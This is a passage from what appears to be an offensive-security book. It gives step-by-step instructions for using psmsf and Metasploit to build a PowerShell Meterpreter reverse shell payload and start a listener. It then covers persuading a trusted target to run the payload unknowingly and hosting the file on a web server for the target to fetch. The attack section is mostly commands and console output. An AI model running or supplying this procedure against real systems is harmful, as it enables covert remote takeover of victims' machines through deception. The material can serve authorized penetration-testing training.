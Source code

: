 Meterpreter is an excellent platform for attacking with. It provides us with many useful tools which make tasks like privilege escalation, establishing persistence, lateral movement, pivoting, and others, much easier.

The other payloads available via `psmsf` are:

* `windows/shell/reverse_tcp`
* `windows/meterpreter/reverse_http`

You can find the video of how this attack is played out at []().

If you do not already have `psmsf` on your attack machine, go ahead and clone it as discussed in the Tooling Setup chapter of Fascicle 0.

{icon=bomb}
G> ## The Play
G>
G> Go ahead and run `psmsf`, you will be provided with the details you need to take the next steps.
G>
G> Next we run:  
G> `/opt/psmsf$ python psmsf --attacktype ps --payload windows/meterpreter/reverse_tcp --lhost <listener-attack-ip> --lport 4444`
G>
G> If you do not specify an output directory for the attack files that `psmsf` creates, it will create the `powershell_attack` directory in your current directory, then generate the PowerShell attack files for you within it. The PowerShell attack files are:  
G>  1. `powershell_msf.rc` (the resource file we can feed to `msfconsole`)
G>  2. `powershell_hacking.bat` (the PowerShell base64 encoded payload with embedded shellcode)
G>
G> Start your listener using the `powershell_msf.rc` resource rile:  
G> `msfconsole -r powershell_msf.rc`  
G> or just load the same parameters from the resource file once you have msfconsole running, and follow with:  
G> `exploit -j`:
G>
G> `msf exploit(handler) > exploit -j`  
G> `[*] Exploit running as background job.`  
G> `[*] Started reverse TCP handler on <listener-attack-ip>:4444`  
G> `[*] Starting the payload handler...`  
G> `msf exploit(handler) >`  
G> `msf exploit(handler) >`
G>
G> The target now needs to run the payload `powershell_hacking.bat`. This can be run anywhere that PowerShell is available, and it will open a reverse meterpreter shell which is embedded within the `powershell_hacking.bat` payload to your listener. Some options:  
G>  * Copy paste the contents of the file into a Windows terminal
G>  * Run the file directly: `cmd.exe /c powershell_hacking.bat`
G>
G> Either of these two options are fine if you have access to the targets machine. If not, you will really need to conceal your true intent from the target that we have built a trust relationship with. We need to hide not only the payload (intent) contents, but also the code (virus) that fetches the payload and runs it (not yet discussed).
G>
G> Host your payload:
G>
G> Copy `powershell_hacking.bat` so our target can unknowingly fetch and run it:  
G> `/opt/psmsf/powershell_attack$ sudo cp powershell_hacking.bat /var/www/html/payload.txt`
